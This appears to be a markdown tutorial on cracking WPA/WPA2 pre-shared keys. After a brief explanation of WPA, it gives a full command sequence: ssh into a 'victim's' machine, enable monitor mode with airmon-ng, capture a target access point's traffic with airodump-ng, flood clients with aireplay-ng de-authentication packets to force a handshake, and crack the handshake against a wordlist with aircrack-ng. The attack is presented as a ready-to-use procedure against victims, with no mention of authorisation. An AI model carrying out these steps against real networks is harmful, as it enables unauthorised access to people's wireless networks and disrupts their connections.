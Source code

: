 WiFi protected access.
WPA dinamically generate a new key for each packet.
WPA and WPA2 are frequently deployed with a pre-shared key, PSK, to secure communications between the access point and the wireless clients.
- The PSK should be a random pass phrase of at least 13 characters in length, if not, it is possible to determine the PSK using a Brute-Force Attack, by comparing the PSK to a known dictionary.

---
Start a WPA attack:
- Connect to the victim's machine by ssh
- List the available wireless interfaces installed on the victim's pc:
````
iwconfig
````
- Create a monitor interface using the airmon-ng command:
````
service network-manager stop

airmon-ng start wlanO

#check monitor mode is enabled
````
- List all the available access points in its range and find your target:
````
airodump-ng monO

#when you find your target press Ctrl+C to stop it
````
- Capture the traffic between the target access point and the client:
````
airodump-ng --bssid victim's_mac_address -c channel --showack -w wpa_log monO
````
(DO NOT CLOSE THIS WINDOW)
- Open another terminal to launch a de-authentication attack, which will force a user to re-authenticate to the target access point and re-exchange the WPA key:
````
aireplay-ng -0 20 -a  victim's_mac_address -c LOOK_DOWN_MAC mon0

#20 means that we will sen 20 de-authentication packets 
````
- Pick one and put it before:
![](./img/pickone.png)
- Let's make sure that we captured the 4 way handshake:
![](./img/4%20way%20handshake.png)
- Now stop this terminal using Ctrl+C
- Now, we need to crack some passwords
````
aircrack-ng wpa_log-01.cap -w /usr/share/wordlists/rockyou.txt
````
![](./img/passwords.png)
- We can also use **hashcat** or other tools to crack the passwords